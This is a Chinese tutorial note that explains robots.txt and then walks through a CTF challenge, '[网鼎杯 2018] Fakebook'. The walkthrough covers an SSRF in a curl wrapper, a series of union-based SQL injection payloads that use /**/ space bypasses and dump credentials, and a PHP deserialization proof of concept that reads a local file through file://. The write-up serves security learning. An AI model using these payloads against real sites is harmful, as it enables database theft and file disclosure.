

# robots.txt
- 什么是robots.txt？
robots协议也叫robots.txt（统一小写）是一种存放于网站根目录下的ASCII编码的文本文件，它通常告诉网络搜索引擎的漫游器（又称网络蜘蛛），此网站中的哪些内容是不应被搜索引擎的漫游器获取的，哪些是可以被漫游器获取的。因为一些系统中的URL是大小写敏感的，所以robots.txt的文件名应统一为小写。robots.txt应放置于网站的根目录下。如果想单独定义搜索引擎的漫游器访问子目录时的行为，那么可以将自定的设置合并到根目录下的robots.txt，或者使用robots元数据（Metadata，又称元数据）。
- 用法：
- 例1.禁止所有搜索引擎访问网站的任何部分：
```
User-agent: *
Disallow: /
实例分析：淘宝网的 Robots.txt文件
User-agent: Baiduspider
Disallow: /
User-agent: baiduspider
Disallow: /
很显然淘宝不允许百度的机器人访问其网站下其所有的目录。
```
- 例2.允许所有的robot访问 (或者也可以建一个空文件 “/robots.txt” file):
```
User-agent: *
Allow:　/
```
- 例题：[网鼎杯 2018]Fakebook
进入环境，没有思路，访问/robots.txt
```
User-agent: *
Disallow: /user.php.bak
```
访问/user.php.bak，下载user.php.bak：
```php
<?php
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```
存在SSRF：
```php
    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
```
注册一个账号，发现存在no?注入
接下来常规注入，注意空格用/**/代替
```
?no=1 order by 4

?no=-1 union/**/select/**/1,2,3,4

?no=-1 union/**/select/**/1,group_concat(schema_name),3,4/**/from/**/information_schema.schemata

?no=-1 union/**/select/**/1,group_concat(table_name),3,4/**/from/**/information_schema.tables/**/where/**/table_schema='fakebook'

?no=-1 union/**/select/**/1,group_concat(column_name),3,4/**/from/**/information_schema.columns/**/where/**/table_name='users'

?no=-1 union/**/select/**/1,group_concat(no,'~',username,'~',passwd,'~',data),3,4/**/from/**/fakebook.users

```
可以发现data字段存放的就是序列化字符串，在使用的时候应该就会调用进行data字段进行反序列化操作
而且根据报错这里也知道了绝对路径是/var/www/html/

反序列化POC：
```
<?php
class UserInfo
{
    public $name = "1";
    public $age = 12;
    public $blog = "file:///var/www/html/flag.php";

}
$res = new UserInfo();
echo serialize($res);
?>
```
O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}
```
根据之前的注入可知，有回显的是第二位，也就是username字段，data对应应该就是第四个字段为，将反序列化字符串尝试以注入的方式写入
```
?no=-1 union/**/select/**/1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:12;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
查看页面源代码，点击链接
得到flag